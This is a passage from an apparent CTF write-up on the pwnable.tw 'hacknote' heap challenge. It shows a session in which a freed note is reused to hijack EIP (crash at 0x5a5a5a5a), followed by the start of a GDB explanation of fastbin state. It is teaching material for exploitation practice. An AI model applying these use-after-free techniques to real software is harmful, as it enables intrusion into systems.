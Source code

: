 ```bash
Success
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :1
Note size :8
Content :ZZZZ
Success !
----------------------
       HackNote       
----------------------
 1. Add note          
 2. Delete note       
 3. Print note        
 4. Exit              
----------------------
Your choice :3
Index :1
Segmentation fault (core dumped)
```

```bash
[ 4406.847536] hacknote[4515]: segfault at 5a5a5a5a ip 000000005a5a5a5a sp 00000000ff8b1aec error 14 in libc_32.so.6[ea387000+1ad000] likely on CPU 0 (core 0, socket 0)
```

Got control on the EIP.

### Explanation

To explain this I will be using GDB and a bit of drawing

- Add note with size 16 and content AAAA
- Add another note with size 16 and content BBBB
![image10.png](/images/pwnabletw-hacknote/image10.png)

Next

- Free note 1
- Free note 0

![image11.png](/images/pwnabletw-hacknote/image11.png)

As of now, there are 4 available fastbins

```python
0x10: 0x804b000 —▸ 0x804b028 ◂— 0 
0x18: 0x804b010 —▸ 0x804b038 ◂— 0
```
2 size 16 fastbins and 2 size 24
